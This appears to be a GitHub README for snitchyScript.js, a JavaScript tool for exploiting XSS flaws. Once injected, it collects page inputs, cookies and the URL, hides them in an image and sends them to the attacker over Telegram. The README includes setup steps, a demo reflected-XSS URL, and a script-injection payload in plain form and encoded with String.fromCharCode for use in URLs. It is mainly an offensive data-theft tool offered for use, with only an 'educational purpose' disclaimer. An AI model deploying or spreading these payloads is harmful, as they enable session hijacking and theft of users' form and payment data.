 
# snitchyScript.js

Modern XSS exploitation script.

![snitchyScript.js Logo](https://i.ibb.co/NsdcYGC/logo.png)

snitchyScript.js is a JavaScript script that exploit XSS vulnerabilities in a simple and modern way. Once loaded in a web page the script will automatically get all elements in the page (such as input values, cookie values, current URL, etc...) and using canvas in JavaScript, create an image and hide all data into it (home made steganography algorithm). Once the snitchy image created, the image will be automatically send using Telegram. 

### Proof of Concept

[![Video PoC Shodan Quest](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=HBahsMN6PFg)

### Requirement

* Telegram account (API keys)

### How to use

To explain how snitchyScript.js works, I have created two HTML pages in this repo.

* index.html: which simulate a html page with a reflected XSS in order to show how to insert the script and how the script behave.

* decryptLoot.html: which will allow to decrypt the data hidden in the image.
### Installation

Clone the repository

```shell
git clone https://github.com/Naqwa/snitchyScript.git
```

Once the repo cloned, edit the file snitchyScript.js (or snitchyScript.min.js for the minified version) and add your Telegram API credentials in the function sendTelegram.

```javascript
function sendTelegram(blob) {
   const telegramApiToken = '<API_TOKEN>'; //Insert your API_TOKEN
   const telegramChatID = '<chatID>'; //Insert your chatID
...
}
```
Now open the page index.html with your favorite browser. We can see a page with a fake payment. 
![snitchyScript.js home page demo](https://i.ibb.co/PNThqtk/snitchy-Script-home-page-demo.png)

I have created a reflected xss vulnerability on purpose in this page using the GET parameter "xss" to show how to insert and use snitchyScript.js 

For example:
```shell
file:///snitchyScript/index.html?xss=<img src=x onerror=alert('XSS_FOUND_:(');>
```

![snitchyScript.js home page demo xss](https://i.ibb.co/TK6z738/snitchy-Script-home-xss-demo.png)

Now it's time to exploit the xss vulnerability and insert snitchScript.js in the page.

For this, I have created the following payload (of course you are free to make yours!):

```javascript
snitchyCall = document.createElement("script");
snitchyCall.src = 'snitchyScript.js'
document.head.appendChild(snitchyCall);
```
To be able to use it easily in the URL, I encoded the characters in UTF-16. So now our payload looks like this:
```html
<img src=x onerror=eval(String.fromCharCode(115,110,105,116,99,104,121,67,97,108,108,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,115,99,114,105,112,116,34,41,59,10,32,32,32,32,32,32,115,110,105,116,99,104,121,67,97,108,108,46,115,114,99,32,61,32,39,115,110,105,116,99,104,121,83,99,114,105,112,116,46,106,115,39,10,32,32,32,32,32,32,100,111,99,117,109,101,110,116,46,104,101,97,100,46,97,112,112,101,110,100,67,104,105,108,100,40,115,110,105,116,99,104,121,67,97,108,108,41,59,32));>
```

Let's inject the payload in the page!

![snitchyScript.js home page demo inject payload](
https://i.ibb.co/t48gB9S/snitchy-Script-home-page-demo-injectpayload.png)

As we can see, the script has been successfully injected in the page.
And after?

Depending on the script you have injected (snitchyScript.js or snitchyScript-reflectedCookie.js) the behavior will not be exactly the same.

snitchyScript.js is based on a click button event, for example when a user clicks on a button, snitchyScript.js will be automatically executed and get all the values in the inputs text, select and textarea (so far) in the page, transform the data into a JSON array, and then insert the JSON array into the image (steganography process) before sending the image via Telegram. snitchyScript.js is more appropriate on a stored XSS case.

In the other hand, snitchyScript-reflectedCookie.js is more appropriate for reflected XSS, but only takes care of stealing the cookie and inserting it into the image before sending it. As soon as the page is loaded the script will be executed and send the cookie (not gonna wait for anything).

![snitchyScript.js demo page filling data](
https://i.ibb.co/DKYXdKx/snitchy-Script-home-page-demo-filled-data.png)

After executed, the script will send the image with the data hide inside in your Telegram chat. For now the image looks like this (can be changed in the code of course):

![snitchyScript.js loot image](
https://i.ibb.co/LdqsFHN/a1ob6.png)

### Decrypt the image
Since the data are hidden in the image, a decryption demo page has been created to extract the hidden data from the image. So now let's go to decryptLoot.html and upload the image received on Telegram.

![snitchyScript.js loot image](
https://i.ibb.co/5cdFj8c/snitchy-Script-decrypt-loot-page.png)

Voila! The data has been decrypted from the image.

### What's next?

More features are coming soon (or not!), stay tune!

### Note
FOR EDUCATIONAL PURPOSE ONLY.
